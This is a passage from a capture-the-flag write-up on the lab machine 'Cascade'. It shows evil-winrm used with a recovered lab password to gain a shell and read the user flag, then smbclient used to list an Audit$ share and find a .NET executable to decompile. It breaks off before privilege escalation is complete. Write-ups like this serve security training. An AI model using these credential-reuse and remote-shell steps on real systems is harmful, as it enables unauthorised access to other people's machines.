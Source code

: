 Now that we have Steve Smith's password, and since he is part of the "Remote Management Users" group, we can use `evil-winrm` to get a shell as him and get the flag.

```
# evil-winrm -i cascade.htb -u s.smith -p sT333ve2

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> cat user.txt
56c7a4**************************
```

## Root

One thing we can try now, is to look at the `Audit$` share that we could not view earlier. If we try with the new credentials, we can find some interesting files.

```
# smbclient \\\\cascade.htb\\Audit$ -U "s.smith"
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                       A    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86  
```

Looking at the Batch file, we see that the scripts calls `CascAudit.exe` using a file from the database.

```bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

Since the `CascAudit.exe` is a .Net executable, we can use ILSpy to decompile and analyze it. On Linux, we can use AvalonialILSpy.
